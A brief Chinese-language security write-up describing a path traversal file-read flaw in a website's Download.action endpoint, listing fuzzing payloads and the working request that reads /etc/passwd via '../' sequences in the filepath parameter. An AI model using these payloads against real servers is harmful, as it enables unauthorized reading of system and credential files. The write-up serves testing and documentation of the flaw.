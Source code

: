 ### 某网站 URL 参数任意读取

在使用 Yakit 抓包测试时，发现了一处 URL 链接 

```
Download.action?filename=xxx.pdf&filepath=/Uploads/2020/xxx.pdf
```

猜测可能会存在文件读取漏洞，并在 `filename` 和 `filepath` 参数 FUZZ

```apl
filename=/etc/passwd
filename=../../../etc/passwd
filepath=../../../etc/passwd
```

都没有成功获取到想要 `/etc/passwd` 文件内容，一直 fuzz 参数，在 `filepath` 中带上 `/ploads12020/` 路径才可以跨目录读取 `/etc/passwd` 文件

```apl
Download.action?filename=&filepath=/Uploads/2020/../../../../../../etc/passwd
```

![](https://pic1.imgdb.cn/item/68b00a9358cb8da5c85b2eca.png)